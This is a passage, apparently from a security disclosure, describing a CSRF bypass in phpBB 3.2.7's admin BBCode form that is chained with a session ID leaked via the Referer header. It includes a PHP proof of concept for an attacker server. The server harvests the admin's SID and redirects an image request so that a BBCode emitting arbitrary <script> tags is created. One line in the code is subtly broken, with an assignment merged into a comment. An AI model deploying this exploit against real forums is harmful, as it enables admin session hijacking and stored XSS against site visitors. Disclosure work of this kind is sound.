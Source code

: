 (The code can be found in `/includes/acp/acp_bbcodes.php` in the method main)

This interesting thing is that the CSRF nonce is only checked when the POST parameter submit is set. If it is not, the nonce is not checked but execution continues normally. This means the second CSRF check for this form can be bypassed by simply not sending the submit POST parameter.

Since we are in possession of the first protection, the SID of the admin it is now possible to CSRF this form. Luckily, the variable() method of the request object returns either GET or POST variables, meaning it is possible to perform the entire CSRF via GET parameters.

As a result, the CSRF can be chained with the first vulnerability. By embedding an image with an external URL into the index page of the front end that points to an attacker server that waits for the SID parameter being leaked in the HTTP Referer and then redirects the request to the image in a way that it exploits the CSRF vulnerability in the ACP.

PoC code for this:

``` php
<?php
$target_url = "http://localhost/phpBB3-3.2.7/";
// put the desired shortcode here. {TEXT} is dynamic and allows for example
// [xss]customCode();[/xss] to turn into <script>customCode()</script>.
$custom_shortcode = "[xss]{TEXT}[/xss]";
// the HTML replacement. You can also hardcore the code between the script tags.
$shortcode_replacement = "<script>{TEXT}</script>";
// If a session ID is available, attempt the CSRF exploit
if(strpos($_SERVER['HTTP_REFERER'], 'sid') !== false) {
    // leak the session ID of the nonce $parts = parse_url($_SERVER['HTTP_REFERER']);
    parse_str($parts['query'], $query);
    if(!isset($query['sid'])) {
        header('Content-Type: image/png');
        $img = imagecreatefrompng('avatar.png');
        imagepng($img);
        die;
    }
    // build the CSRF payload
    $payload = http_build_query(
        array(
            'bbcode_match' => $custom_shortcode,
            'bbcode_tpl' => $shortcode_replacement,
            'i' => 'acp_bbcodes',
            'mode' => 'bbcodes',
            'action' => 'create',
            'sid' => $query['sid']
        )
    );
    // adm is the default admin URL
    $exploit_url = $target_url . "/adm/?" . $payload;
    header('Location: ' . $exploit_url);
} else {
    header('Content-Type: image/png');
    $img = imagecreatefrompng('avatar.png');
    imagepng($img);
    die;
}
```
